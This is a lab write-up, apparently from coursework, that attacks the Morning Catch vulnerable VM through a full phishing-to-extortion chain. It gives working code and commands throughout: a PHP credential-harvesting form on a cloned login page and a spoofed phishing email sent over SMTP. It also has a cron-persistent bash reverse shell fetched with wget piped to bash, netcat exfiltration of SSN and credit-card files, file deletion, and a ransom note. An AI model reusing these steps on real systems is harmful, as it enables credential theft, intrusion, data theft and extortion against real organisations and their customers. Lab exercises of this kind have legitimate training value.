

# Exploiting "Morning Catch": from Phishing to Double Extortion

## Introduction

### Scenario

This laboratory describes a spearphishing attack targeting a company CEO with the purpose of stealing credentials, accessing the system, and subsequently stealing sensitive information for double extortion, while also obtaining a persistent reverse shell with root privileges.

**Threat model:** Adversary with access to the private internal network of the company.

### Prerequisites

#### Virtual Environment

To execute this laboratory, VMware was used to virtualize 2 VMs, with a Host-Only network connection:

* **Kali Linux** → the attacker machine
* **Morning Catch - Phishing Industries** → the victim machine: a vulnerable VMware virtual machine, similar to Metasploitable, made for simulating Phishing attacks

#### DNS Entries

The file `/etc/host` was modified to simulate the fact that: 

* the website of the victim company is up on the internet as `morningcatch.ph`;
* the attacker has bought a similar domain name (with only a `g` missing) in order to fool the victim.

On the Attacker VM:

```
<Attacker IP> mornincatch.ph
<Victim IP> morningcatch.ph
```

On the Victim VM:

```
<Attacker IP> mornincatch.ph
```

#### SMTP

To make the phishing attack work, I had to give `RELAY` rights to the private subnet (and therefore to the attacker machine), by whitelisting these lines in `/etc/mail/access`:

```
Connect: 192.168	  RELAY
GreetPause: 192.168	0
ClientRate: 192.168	0
ClientConn: 192.168	0
```

#### Tools

* `nmap`: to discover the network
* `wget`: to clone the website
* `apache2`: to host the fake website
* `telnet`: to craft and send the fake email
* `rdesktop`: to connect to the RDP service
* `cron`: for persistence
* `nc`: for the remote shell and for stealing the files

## Execution Steps

### Phase 1: Phishing

**Objective:** Obtain the credentials of the Morning Catch's CEO.

#### 1.1. Reconnaissance and Discovery

The attacker firstly can use `nmap` to gain knowledge about the network, like possible vulnerable services of the target host "Morning Catch - Phishing Industries".

    Nmap scan report for <Victim IP>
    Host is up (0.0049s latency).
    Not shown: 994 closed tcp ports (reset)
    PORT     STATE SERVICE
    25/tcp   open  smtp
    80/tcp   open  http
    143/tcp  open  imap
    587/tcp  open  submission
    993/tcp  open  imaps
    3389/tcp open  ms-wbt-server
    MAC Address: 00:0C:29:FE:3A:FF (VMware)

There's an open connection on HTTP (the website), open connection for SMTP (will be useful), also on `ms-wbt-server` which can be used for remote desktop (interesting!).

The attacker explores the website of the of Morning Catch on `http://morningcatch.ph`. There there is the list of contacts of the company directory.


Great! Now the attacker knows the mail of the CEO (our target) and the one of the System Administrator, which will be use later to impersonate him.

By clicking "Employee login" , there's also a login page to access the corporate webmail. 


The idea for realizing the first phase is to clone the entire website and create a fake form that will steal the credentials; then send a link to the website to the CEO by impersonating the System Administrator to fool him.

#### 1.2. Cloning

The attacker firstly clones the entire Morning Catch website, using `wget`. This command downloads all the web resources of the company website, making the dependencies local. Then, everything is moved to the root directory of Apache.

```bash
wget -r -k -p morningcatch.ph
sudo mv morningcatch.ph/* /var/www/html
```

Next, the attacker then clones the web login page separetly. This will allow for the `mail` directory to be created, making the URL of the login form more similar to the original one. 

```bash
rm /var/www/html/mail
wget -r -k -p morningcatch/mail/
sudo mv morningcatch.ph/mail /var/www/html
```

#### 1.3. Modify the login form

###### `index.html`

The attacker modifies, in the `mail/index.html` file, the form action element to `"form.php"`.

```bash
sudo nano /var/www/html/mail/index.html
```

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

###### `task-mail`

Then the attacker adds the HTML file `task-mail` to the directory. This page will be loaded after submitting the credentials, showing a basic “System Maintenance” message to reduce immediate suspicion.

```bash
sudo cp task-mail /var/www/html/mail
```

It could look like this:

```html
<!doctype html>
<html>
<head><meta charset="utf-8"><title>System Maintenance</title></head>
<body>
  <h1>System Maintenance</h1>
  <p>Scheduled maintenance in progress. Please try again later.</p>
</body>
</html>
```

###### `form.php`

Therefore the `form.php` needs to:

*  save the form inputs in `creds.txt`,
* redirect to `task-mail`.

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose($f);
header("Location: http://mornincatch.ph/mail/task-mail");
die();
?>
```

###### `creds.txt`

The attacker finally creates `creds.txt` and changes its owner to `www-data` (the user running the web server process), so that it can be modified during the execution of the script.

```
sudo cp form.php /var/www/html/mail
sudo touch /var/www/html/mail/creds.txt
sudo chown www-data: /var/www/html/mail/creds.txt
```

The website can then start with Apache.

```
sudo systemctl start apache2
```

Now the website is on, ready to steal some credentials!

#### 1.4. Sending the message

The attacker connects to the SMTP server (identified earlier with `nmap`) using `telnet`. This sequence SMTP commands crafts and sends an email from the system administrator of the company  (Boyd Jenius)  to the CEO (Richard Bourne). The url redirects to the fake login page (hosted on the attacker's machine). 

```bash
telnet morningcatch.ph 25
helo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: Webmail Update

Hello Richard,

We are currently rolling out a new performance configuration for the webmail system to improve security.

Could you please help us test the updated version? Access it at:
http://mornincatch.ph/mail/

Let us know if you encounter any issues, but after the weekend.

Best,
Boyd

.
quit
```

> [!NOTE]
>
> This spoofing step is possible due to the vulnerable Sendmail server, configured to allow unauthenticated relaying from internal network addresses.

###### Richard POV

Richard Bourn checks his email and receives the message (from the real Boyd Jenius!):


Then Richard enters the username and password, which can now be found in the `creds.txt` file. Now the attacker has his credentials, escalating the threat!


### Phase 2: Execution and Exfiltration

**Objective:** Get inside the CEO's machine and steal sensitive material.

#### 2.1. Exploring Richard's Machine

Now that the attacker has the Richard's credentials, they can try to reuse them (Credential Stuffing) for accessing other services. In particular the `ms-wbt-server` (identified earlier with `nmap`), which is the service name used by the Remote Desktop Protocol (RDP).

Firstly the attacker authenticates as Richard Bourne, using `rdesktop`. The `morningcatch.ph` name on the attacker machine resolves the victim's IP.

```bash
rdesktop -u rbourne -p password morningcatch.ph
```

The credentials are valid and he's inside the CEO's desktop environment.



The attacker explores common user directories, and finds 2 interesting CSV files, `company_picnic.csv` and `customers.csv`. They both contain sensitive information, in particular: the first contains the social security number of all the company employees and the second the credit card number and type of all 9000 customers of the company. It would be a shame if this data got leaked.


The attacker decides to steal these files, which could be done directly with RDP. However, to gain a better position, the attacker tries to obtain a reverse shell on the victim machine and use that for the exfiltration step. In particular, if the attacker successfully obtains persistence, he can access Richard's machine even if he changes his password.

#### 2.2. Reverse Shell with Persistence

###### `innocent.sh`

The attacker has written `innocent.sh`, a script that spawns the reverse shell and mantains access using `cron`.

```bash
#!/bin/bash

SAFETYCOM="/bin/bash -c 'bash -i >& /dev/tcp/mornincatch.ph/4444 0>&1'"

(crontab -l ; echo "@reboot sleep 200 && $SAFETYCOM") | crontab 2> /dev/null

eval "$SAFETYCOM"
```

* `SAFETYCOM`  is the command that spawns an interactive shell, redirecting stdin and stdout through a TCP connection to the attacker, thus creating a reverse shell.
* This command is both saved in the crontab and executed at the end of the script;
* The errors of the crontab are ignored to avoid leaving any obvious traces;
* The cronjob is executed at every reboot of the system, after waiting 200 seconds (for giving the system time to set up propely).

> [!NOTE]
>
> The cronjob will be executed with the privileges of the user that executes `innocent.sh`.

###### Server

On the attacker machine: the script is added to the root directory of Apache and then the attacker opens a listener with `netcat`. 

```bash
sudo cp innocent.sh /var/www/html
nc -lvnp 4444
```

This will allow the victime to download the script via HTTP.  When he will execute it, he will connect to the listener and the reverse shell will be obtained.

###### Client

From the victim terminal (to which the attacker has access to, thanks to RDP), the attacker:

* tries to authenticate as `root` with Richard's credentials for Privilege Escalation (they work!),
* downloads the script quietly and executes it.

```bash
su root
wget -qO- http://mornincatch.ph/innocent.sh | bash
```

The attacker has successfully obtained a remote shell with `root` privileges that's persists across reboots!


> [!NOTE]
>
> While `rbourne` had sufficient privileges to execute the final step of this attack, this persistent reverse shell has system wide access and could be used for potential future attacks. Furthermore, the CEO might not even realize it exists, since he will be distracted by the missing files.

#### 2.3. Stealing the files

Finally, the attacker steals the interesting files with `netcat`.

The attacker opens a new listener on a different port to receive data.

```bash
nc -lvnp 1234 > customers.csv
```

On the terminal of the victim, through the reverse shell:

```bash
cat Documents/customers.csv | nc mornincatch.ph 1234
```

The `mornincatch.ph` name on the victim machine resolves the attacker's IP. The attacker does the same with `company_picnic.csv`. 

Then lastly on the victim machine:

```bash
rm -r Documents/*
echo "ATTENTION: we have your sensitive data (SSN, credit card). The originals were deleted. Pay 5.0 BTC to bc1adfka3flasjdlks2mdl0asmd or they get published. YOU HAVE 72 HOURS." > Documents/STOLEN_FILES_READ.txt
```

So the attacker successfully exfiltrated the sensitive data and deleted the original files from the victim's system, leaving a ransom note behind. The attack is completed!

## References

**LLM usage:** both Gemini and ChatGPT were used for technical support.

**Morning Catch VM**

* https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/ 

**For the Phishing attack**

* https://github.com/dc865/writeups/blob/master/MorningCatch/CredHarvesting.md

**For the persistent Reverse Shell**

* https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/linux-persistence
* https://stackoverflow.com/questions/55240626/bash-reverse-shell-command-cron-job-not-working-i-give-up
* https://superuser.com/questions/98089/sending-file-via-netcat
